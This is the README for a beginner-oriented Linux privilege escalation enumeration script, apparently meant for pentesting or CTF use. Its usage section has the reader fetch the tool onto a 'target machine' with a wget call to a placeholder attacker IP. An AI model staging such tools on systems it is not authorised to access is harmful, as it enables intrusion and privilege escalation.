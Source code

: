 # Privilege Escalation Helper Tool

This is a beginner-friendly privilege escalation enumeration tool designed for Linux systems. It automatically checks for:
- SUID binaries and matches them against GTFOBins
- Writable paths in $PATH
- Cron jobs
- Kernel version and suggests known exploits using linux-exploit-suggester

## Usage

1. Upload the script to the target machine:
```
wget http://<attacker-ip>/privesc_helper.sh
chmod +x privesc_helper.sh
```

2. (Optional) Place `linux-exploit-suggester.sh` in the same folder.

3. Run the tool:
```
./privesc_helper.sh
```

4. Check the results in `privesc_report.txt`.

## Notes

- The script requires `curl`, `bash`, and `tee`.
- It does not exploit automatically — it assists with clear enumeration.

## License

MIT License

Copyright (c) 2025 ZAR

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

